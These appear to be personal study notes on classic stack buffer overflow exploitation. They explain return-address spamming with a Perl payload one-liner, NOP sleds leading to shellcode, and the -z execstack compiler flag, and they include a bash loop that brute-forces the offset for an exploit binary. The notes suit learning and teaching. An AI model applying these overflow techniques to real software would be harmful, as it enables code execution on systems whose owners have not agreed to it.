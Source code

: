 # Return address spam
If we want to overwrite the `return address` without knowing the exact length that’s between the `buffer` and the address, then we should try spamming it in memory like so:
```bash
./overflow `perl -e 'print "\x25\xfe\x43\x54"x10'`
```

# NOP sled
By spamming the value `0x90` (on x86). Why we use this? Let’s say our memory layout is like this:

![[Drawing 2023-07-04 10.29.09.excalidraw|700]]

Now, when our program hits the return address, it jumps back in memory, it hits the `NOP SLED`, and starts skipping until it gets to the shellcode, and then that runs.

```ad-important
On modern computers you can't execute the stack unless it's specified in the compiler settings with: `-z execstack`
```

# Brute force offset

Script to easily do this:

```bash
for i in $(seq 0 30 300)
    do
        echo Trying offset $i
        ./exploit-notesearch.o $i
    done
```

This script does one thing, it tries to get the offset from our variable, so we can set the end point of the return address to that, hitting our [[#NOP sled]].

